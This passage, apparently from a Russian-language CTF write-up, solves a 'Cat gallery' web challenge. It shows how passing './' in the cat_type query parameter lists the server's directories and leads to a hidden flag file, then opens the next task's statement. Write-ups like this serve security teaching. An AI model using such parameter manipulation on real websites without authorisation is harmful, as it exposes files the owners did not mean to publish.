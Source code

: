 ![](https://storage.geekclass.ru/images/53f14ae7-0bfe-4fb2-a3b6-42de0709d7a8.png)

обращаем внимание на запрос:<br>
http://45.143.94.76:3201/`?cat_type=sad_cats`<br> 
а также на структуру html страницы:
```
<img src="static/sad_cats/cat3.jpg" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px">
...
<img src="static/sad_cats/cat1.jpg" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px">
```

Теперь еще более внимательно:<br>
?cat_type=`sad_cats`<br>
src="static/`sad_cats`/cat3.jpg"

Делаем вывод, что сервер рендерит все файлы в директории, которая передаётся в параметре GET запроса. Пробуем подставить вместо `sat_cats` параметр `./` (отображение текущей директории) и получаем:

```
<img src="static/./evil_cats" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px"/>
    
<img src="static/./sad_cats" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px"/>
    
<img src="static/./future_cats" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px"/>
    
...  

<img src="static/./fat_cats" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px"/>
```
Сервер пытается отрендерить буквально все, даже директории.

Стоп, вы тоже это видите? ~~[Directory traversal](https://en.wikipedia.org/wiki/Directory_traversal_attack) уязвимость!~~ `static/./future_cats`. Это же кошки из будущего! Смотрим что находится в этой директории:<br>
url/?cat_type=`future_cats`

```
<img src="static/future_cats/cat1.jpg" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px"/>
    
<img src="static/future_cats/edff72b33bfc4973.txt" alt="cool_cat" style="width: 200px; height: 200px; margin: 20px"/>
```

Замечаем подозрительный файл `edff72b33bfc4973.txt`, переходим по ссылке `site_url/static/future_cats/edff72b33bfc4973.txt` и получаем флаг.

## 3. Cat gallery 3 (web)
#### Условие:
```
Заказчик исправил все ранее найденные уязвимости и продолжает внедрять фичи!
Теперь он полностью уверен, что его сайт в абсолютной безопасности!
Убеди его в обратном.
```
